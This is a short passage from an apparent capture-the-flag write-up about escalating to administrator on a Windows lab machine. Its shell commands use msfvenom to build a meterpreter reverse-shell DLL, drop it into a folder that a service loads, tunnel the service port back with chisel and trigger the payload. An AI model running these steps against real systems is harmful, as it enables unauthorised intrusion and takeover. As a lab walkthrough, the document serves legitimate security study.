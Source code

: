 Looking at these I was able to see that the functionality "upload" on a service running on the port 100 is triggering .dll files on a particular folder `c:\Program Files\ReportManagement\libraries`

Now I must create a reverse shell to become administrator and put it on the folder "libraries"

```
msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=<MYIP> LPORT=<443> > o externalupload.dll
```

Once I put it on the victim machine with that specific name on that specific path I used chisel.exe.

On my machine:
```
./chisel server --reverse -p 1234 
```
On the victim
```
./chisel client <MY IP>:1234 R:<VICTIM IP>:100
```


I started to listen on the port 443 , I have problems with netcat so I used metasploit 
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html


On my Kali machine I used this to connect to the port 100 that I redirect from the victim machine to my machine
```
nc 127.0.0.1:100
```
Then here I type :
```
upload ""
```
This triggers the reverse shell that I put on the "libraries folder" and finally I was able to read the root flag.


